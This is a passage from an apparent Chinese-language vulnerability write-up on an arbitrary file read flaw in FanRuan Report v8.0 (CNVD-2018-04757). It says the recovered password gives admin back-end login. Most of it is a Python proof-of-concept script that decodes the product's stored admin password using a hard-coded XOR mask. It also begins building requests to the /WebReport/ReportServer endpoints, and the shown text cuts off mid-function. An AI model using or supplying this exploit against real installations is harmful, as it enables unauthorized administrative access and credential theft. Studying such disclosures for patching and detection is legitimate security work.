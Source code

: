 得到密码，即可登陆后台系统，账户为 admin

![](帆软报表-v8.0-任意文件读取漏洞-CNVD-2018-04757.assets/1627363502783075.jpg)

## 漏洞利用POC

```python
import requests
import sys
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 帆软报表 v8.0                                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def decode_passwd(cipher):
    PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23]  # 掩码
    Password = ""
    cipher = cipher[3:]  # 截断三位后
    for i in range(int(len(cipher) / 4)):
        c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
        c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
        Password = Password + chr(c2)
    return Password

def POC_1(target_url):
    vuln_url_1 = target_url + '/WebReport/ReportServer'
    vuln_url_2 = target_url + '/ReportServer'
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
```